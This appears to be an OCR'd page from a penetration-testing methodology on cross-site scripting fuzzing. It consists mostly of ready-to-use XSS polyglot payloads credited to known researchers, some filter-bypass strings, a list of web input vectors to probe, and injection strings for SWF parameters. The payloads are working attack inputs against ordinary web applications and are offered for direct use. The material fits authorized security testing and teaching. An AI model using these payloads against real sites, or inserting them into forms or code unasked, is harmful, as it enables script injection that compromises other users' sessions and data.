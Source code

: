# ￼￼￼Tactical Fuzzing - XSS

## XSS
Core Idea: Does the page functionality display something to the users?
For time sensitive testing the 80/20 rule applies. Many testers use Polyglot payloads. You probably have too!

### Multi-context, filter bypass based polyglot payload #1 (Rsnake XSS Cheat Sheet)

``
';alert(String.fromCharCode(88,83,83))//';alert(String. fromCharCode(88,83,83))//";alert(String.fromCharCode (88,83,83))//";alert(String.fromCharCode(88,83,83))//-- ></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83)) </SCRIPT>
``



### Multi-context, filter bypass based polyglot payload #2 (Ashar Javed XSS Research)

``
 ">><marquee><img src=x onerror=confirm(1)></marquee>" ></plaintext\></|\><plaintext/onmouseover=prompt(1) ><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->" ></script><script>alert(1)</script>"><img/id="confirm&lpar; 1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http: //i.imgur.com/P8mL8.jpg">
￼￼``

### Multi-context polyglot payload (Mathias Karlsson)

``
" onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
``

## ￼Other XSS Observations

Input Vectors:
- Customizable Themes & Profiles via CSS
- Event or meeting names
- URI based
- Imported from a 3rd party (think Facebook integration)
- JSON POST Values (check returning content type)
- File Upload names
- Uploaded files (swf, HTML, ++)
- Custom Error pages
- fake params - ?realparam=1&foo=bar’+alert(/XSS/)+’
- Login and Forgot password forms

## SWF Parameter XSS

Common Params:
onload, allowedDomain, movieplayer, xmlPath, eventhandler, callback (more on OWASP page)

Common Injection Strings:￼
``
\%22})))}catch(e){alert(document.domain);}//
``

``
"]);}catch(e){}if(!self.a)self.a=!alert(document.domain);//
``

``
"a")(({type:"ready"}));}catch(e){alert(1)}//
``
